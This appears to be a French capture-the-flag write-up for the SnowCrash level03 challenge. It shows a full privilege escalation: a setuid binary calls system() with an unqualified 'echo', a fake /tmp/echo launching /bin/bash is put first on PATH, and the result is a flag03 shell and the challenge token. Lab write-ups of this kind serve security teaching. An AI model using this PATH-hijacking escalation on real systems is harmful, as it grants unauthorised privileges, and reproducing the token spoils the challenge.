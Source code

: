 # Level03

Un trouve un exécutable nommé <code>level03</code> qui, quand lancé, nous affiche "Exploit me". On lance donc <code>ltrace</code> pour comprendre ce que fait le programme.

```bash
$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()                                             = 2003
geteuid()                                             = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                     = 0
+++ exited (status 0) +++
```

Le programme fait appel à system pour lancer la commande <code>echo</code>. On peut donc créer notre propre version de <code>echo</code> qui lancera <code>/bin/bash</code> avec les droits de l'owner. Pour cela il faut creer notre fichier echo et remplacer le path pour qu'il soit appelé :

```bash
$ echo "/bin/bash" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp:$PATH
```

On lance ensuite le programme :

```bash
level03@SnowCrash:~$ ./level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$
```

On voit que notre user a changé, nous sommes maintenant flag03

```bash
$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

`https://opensource.com/article/20/4/linux-binary-analysis`
`https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code`
